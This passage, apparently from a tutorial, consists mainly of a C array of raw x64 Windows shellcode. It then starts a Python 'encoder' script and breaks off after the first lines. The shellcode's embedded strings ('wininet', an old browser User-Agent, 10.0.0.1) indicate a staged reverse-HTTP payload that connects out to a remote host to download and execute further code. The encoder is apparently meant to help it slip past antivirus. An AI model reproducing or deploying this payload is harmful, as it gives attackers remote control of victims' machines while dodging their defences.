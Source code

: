     unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x56\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x35\x6e\x6b\x4f\x00\x03\x9a\xf4\xbb\xe0\xdd\x3e\x6c\x87\xa5\x05\x4b\x82\x51\x2f\xd5\x68\x67\x15\xd6\xfd\x10\xf3\xa5\x90\x60\xea\xba\xfe\x1f\x26\x2d\x04\xf3\xec\xcb\xd4\x73\x94\x57\x98\x5e\xde\xec\xb8\x3e\xd9\x4e\x32\xcc\x38\xe3\x94\x06\x1d\x73\x2d\xb3\xd4\x62\x26\xca\x5a\xae\x52\xef\xf4\xc0\x81\x77\x97\xce\xd5\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x38\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x34\x2e\x30\x3b\x20\x47\x54\x42\x37\x2e\x34\x3b\x20\x49\x6e\x66\x6f\x50\x61\x74\x68\x2e\x32\x29\x0d\x0a\x00\x61\xe2\x49\x6c\xb5\x31\x92\x20\x19\xc9\xaa\x69\x2b\xbc\xc1\x8b\x28\xf9\x80\x6c\x92\xac\xba\xea\x06\x32\x05\xc2\x38\x1b\x0f\x3e\x85\x39\xc3\x8a\x12\x21\xe7\x51\x80\x80\x30\x02\xe7\xcc\x8f\x34\x38\xd1\xe2\x48\xf0\x28\x21\xe9\xd7\xa6\x47\x58\x0e\x48\x8c\x1d\x16\xad\x7d\xad\xbd\xa4\x40\x58\x4b\x5f\x3d\xa9\xd0\x55\x19\xdf\x43\xf1\x69\xba\x0c\x81\x6f\x91\x72\x94\xc6\x65\xb4\x8d\x5b\x04\x58\x68\x72\x93\xc3\xbc\x46\x11\x0b\xf8\x50\x26\x52\x15\x49\xdb\x36\x0d\x75\x5d\x81\x5d\x47\x1b\x0f\x5e\x25\x50\x34\x23\xc1\x69\xfd\x22\x75\x5d\xea\xa4\x2e\x40\x98\x12\x72\x8e\xd4\xde\xef\xf2\x42\xdd\x08\x6b\xa3\x74\x13\x6c\xa9\x82\xfc\x25\xec\xe6\x22\xea\x9b\x4b\x58\xa8\x85\x67\xa1\x78\x1e\xaa\x07\x31\xd7\xcf\x4a\x74\xf1\x30\x63\x3e\x0e\x5c\x17\x53\x2f\x69\x67\x92\xf8\x28\xfe\xd6\x6f\xce\x06\xc5\xdd\xb2\x0d\x71\xf4\xda\x18\x5e\x26\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x2e\x30\x2e\x30\x2e\x31\x00\x58\x56\x3d\xd2";
    

And the following code will be our encoder:

    
    
    #!/usr/bin/python
    
    import sys
    
